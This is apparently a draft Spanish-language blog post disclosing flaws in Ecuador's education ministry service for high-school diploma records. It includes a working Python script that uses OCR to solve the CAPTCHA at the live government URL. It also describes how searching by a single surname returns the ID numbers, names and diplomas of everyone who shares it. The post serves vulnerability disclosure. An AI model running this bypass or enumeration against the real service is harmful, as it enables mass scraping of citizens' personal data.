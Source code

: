 ```yaml
---
pubDatetime: 2025-06-16
title: Tus datos han sido filtrados | educacion.gob.ec
description: Ninguna inyección SQL fue necesaria, solo un apellido y el checkbox indicado para explotar el registro de títulos de bachilleres del Ecuador
featured: true
draft: true
author: eserror
tags:
  - filtracion
  - ecuador
---
```


Durante los últimos años el gobierno del Ecuador ha realizado esfuerzos por modernizar y digitalizar su infraestructura. Gracias a estas iniciativas, hoy en es posible realizar el apostillado, obtener una copia del título de bachiller u otros servicios que pueden ser encontrados en [www.gob.ec](https://www.gob.ec/).

Entre los nuevos servicios ofrecidos por el gobierno, la facilidad para obtener una copia del título de bachiller me llevó a pensar en las posibilidades, dada la cantidad cantidad y el tipo de información que posiblemente almacenaba, una falla de seguridad sería catastrófica.

Es así como descubrí una vulnerabilidad que afecta a la mayoría de los ecuatorianos, exponiendo cédulas, nombres completos, copia completa del título de bachiller, etc.

Es necesario un ataque sofisticado cuando un apellido y el checkbox indicado te pueden entregar toda la base de datos?

## Vulnerabilidades

1. Weak CAPTCHA

La plataforma del servicio de consulta de títulos de bachilleres, cuenta con un mecanismo para evitar repetidas solicitudes y abusos de bots, sin embargo, este mecanismo es muy debil por lo tanto fácil de vulnerar.

El siguiente código en python pretende ser una prueba de concepto para demostrar qué tan fácil es abusar del mecanismo de seguridad actual:

```python
import requests
from PIL import Image
import io
import re
import os
import easyocr
import numpy as np

try:
    reader = easyocr.Reader(['en'], gpu=True)
    EASYOCR_AVAILABLE = True
except Exception as e:
    print(f"ERROR: Failed to initialize EasyOCR: {e}")
    print("Please ensure 'easyocr' and 'torch', 'torchvision', 'torchaudio' are installed.")
    EASYOCR_AVAILABLE = False

def solve_captcha_ai(image_url, save_ocr_input_filename="image.png"):

    if not EASYOCR_AVAILABLE:
        print("EasyOCR is not available. Cannot proceed.")
        return None

    try:

        response = requests.get(image_url, stream=True, timeout=15)
        response.raise_for_status()
        image_bytes = response.content

        image_data_for_ocr = image_bytes

        try:
            if not save_ocr_input_filename:
                raise ValueError("Save filename is empty or None.")

            img_to_save = Image.open(io.BytesIO(image_data_for_ocr))
            img_to_save.save(save_ocr_input_filename)

        except ValueError as ve:
             print(f"Error preparing to save: {ve}")
        except Exception as e:

            print(f"Warning: Could not save the image being read ('{save_ocr_input_filename}'): {e}")
            print(f"Exception Type: {type(e)}")

        print("Processing image...")
        results = reader.readtext(image_data_for_ocr, detail=1, paragraph=False)

        if results:
            extracted_text = "".join([detection[1] for detection in results])
            cleaned_text = re.sub(r'[^a-zA-Z0-9]', '', extracted_text).strip()

            return cleaned_text
        else:
            print("EasyOCR did not detect any text in the image.")
            return ""

    except requests.exceptions.RequestException as e:
        print(f"Network error downloading image: {e}")
        return None
    except Exception as e:
        print(f"An unexpected error occurred: {e}")
        import traceback
        traceback.print_exc()
        return None

captcha_url = "https://servicios.educacion.gob.ec/titulacion25-web/Captcha.jpg"
filename_for_ocr_input = "image.png"

extracted_text = solve_captcha_ai(captcha_url, save_ocr_input_filename=filename_for_ocr_input)
print(f"Result: {extracted_text}")

```

En la pantalla de fondo, se encuentra la imágen `image.png`, esta se genera automáticamente con caracteres aleatorios como medida para evitar solicitudes excesivas. En la imágen, se puede ver el resultado de la ejecución del script que intenta leer el texto de la imágen, dando como resultado la lectura del texto de la imágen.

Lo importe de haber encontrado una falla en este componente, es que me permite realizar solicitudes al servicio, sin ningún tipo de restricción, lo cual es útil para extraer los registros de la base de datos de forma menos dolorosa.

![](@assets/images/20250417200405.png)

2. Sensitive Data Exposure

Existen dos formas de consultar información sobre un usuario específico, usando un ID como cédula o apellidos.

Usando la opción de los apellidos, es la que más retorno de inversión proporciona ya que solo es necesario un apellido random, y la aplicación te entrega la información de todos las personas que tengan ese apellido, es decir que si uso como apellido zambrano, mostrará la información de todos los ecuatorianos con ese apellido.

![](@assets/images/20250417110345.png)

![](@assets/images/20250417110500.png)

### Conclusión

Cada día es más común enterarse en las noticias sobre nuevas filtraciones de datos personales, las cuales pasan desapercibidas como una notificación molesta en el teléfono. Se habla de un crecimiento e iniciativas como la Estrategia Nacional de Ciberseguridad o la Ley Orgánica de Protección de Datos Personales, sin embargo en la práctica nos encontramos en un estado de inactividad cuando de la realidad se trata.

Report Timeline

17-04-2025: Reporte Inicial a EcuCert</br>
22-05-2025: EcuCert responde alegando que no hay un programa responsable de divulgación de vulnerabilidades</br>
16-06-2025: Sin respuesta
